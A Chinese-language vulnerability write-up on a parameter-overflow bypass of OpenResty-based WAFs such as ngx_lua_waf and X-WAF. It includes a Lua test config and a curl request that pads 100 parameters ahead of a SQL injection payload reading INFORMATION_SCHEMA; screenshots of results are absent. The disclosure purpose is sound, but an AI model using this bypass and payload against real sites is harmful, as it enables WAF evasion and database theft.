





###0x00 前言

​	OpenResty® 是一个基于 Nginx 与 Lua 的高性能 Web 平台，其内部集成了大量精良的 Lua 库、第三方模块以及大多数的依赖项。

OpenResty官网：https://openresty.org

漏洞等级：高危

漏洞简介：OpenResty 通过ngx.req.get_uri_args、ngx.req.get_post_args获取参数，只能获取到前100个参数，当提交第101个参数时，uri参数溢出，无法正确获取到第101个及以后的参数，无法对攻击者提交的攻击语句进行安全检测，导致基于ngx_lua开发的安全防护可被绕过，影响多款基于OpenResty的开源WAF。

影响版本：OpenResty全版本

###0x01 环境搭建 

运行环境：CentOS6

源码版本：https://openresty.org/download/openresty-1.13.6.1.tar.gz （官网最新版）

### 0x02 漏洞详情

#### A、uri参数获取

首先看一下官方 API 文档，获取一个 uri 有两个方法：ngx.req.get_uri_args、ngx.req.get_post_args，二者主要的区别是参数来源有区别，ngx.req.get_uri_args获取 uri 请求参数，ngx.req.get_post_args获取来自 post 请求内容。

测试用例：

`server {
   listen    80;
   server_name  localhost;

   location /print_param {
       content_by_lua_block {
           local arg = ngx.req.get_uri_args()
           for k,v in pairs(arg) do
               ngx.say("[GET ] key:", k, " v:", v)
           end

           ngx.req.read_body()
           local arg = ngx.req.get_post_args()
           for k,v in pairs(arg) do
               ngx.say("[POST] key:", k, " v:", v)
           end
       }
   }
}`

输出测试：

#### B、参数大小写

当提交同一参数id，根据接收参数的顺序进行排序，

可是当参数id，进行大小写变换，如变形为Id、iD、ID，则会被当做不同的参数。

比较有趣的是，window下IIS+ASP/ASPX 大小写是不敏感的，

提交参数为 ?id=1&Id=2&iD=3&ID=4，

输出结果为 1, 2, 3, 4

那么，当nginx反向代理到IIS服务器的时候，这就存在一个参数获取的差异，结合HPP进行利用，可被用来进行Bypass  ngx_lua 构建的SQL注入防御。这里不做讨论，介绍参数大小写，主要用于进一步构造测试用例。

####C、参数溢出

如果当我们不段填充参数，会发生什么情况呢，为此我构造了一个方便用于展示的测试案例，a0-a9，10*10,共100参数，然后第101个参数添加SQL注入 Payload，我们来看看会发生什么？

测试用例：

 curl '127.0.0.1/test?
 a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&
 a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&
 a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&
 a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&
 a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&
 a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&
 a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&
 a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&
 a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&
 a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&
 id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata'

输出结果：

可以看到，使用ngx.req.get_uri_args获取uri 请求参数，只获取前100个参数，第101个参数并没有获取到。继续构造一个POST请求，来看一下：

使用ngx.req.get_post_args 获取的post请求内容，也同样只获取前100个参数。

综上，通过ngx.req.get_uri_args、ngx.req.get_post_args获取uri参数，只能获取前100个参数，当提交第101个参数时，uri参数溢出，无法正确获取第100以后的参数值，基于ngx_lua开发的安全防护，无法对攻击者提交的第100个以后的参数进行有效安全检测，从而绕过安全防御。

### 0x03 影响产品

####A、ngx_lua_waf

ngx_lua_waf是一个基于lua-nginx-module(openresty)的web应用防火墙

github源码：https://github.com/loveshell/ngx_lua_waf

**拦截效果图：**

**利用参数溢出Bypass：**

####B、X-WAF

X-WAF是一款适用中、小企业的云WAF系统，让中、小企业也可以非常方便地拥有自己的免费云WAF。

官网：<https://waf.xsec.io> 

github源码：https://github.com/xsec-lab/x-waf

**拦截效果图：**

**利用参数溢出Bypass：**

参考链接：http://wiki.jikexueyuan.com/project/openresty/openresty/get_url_param.html

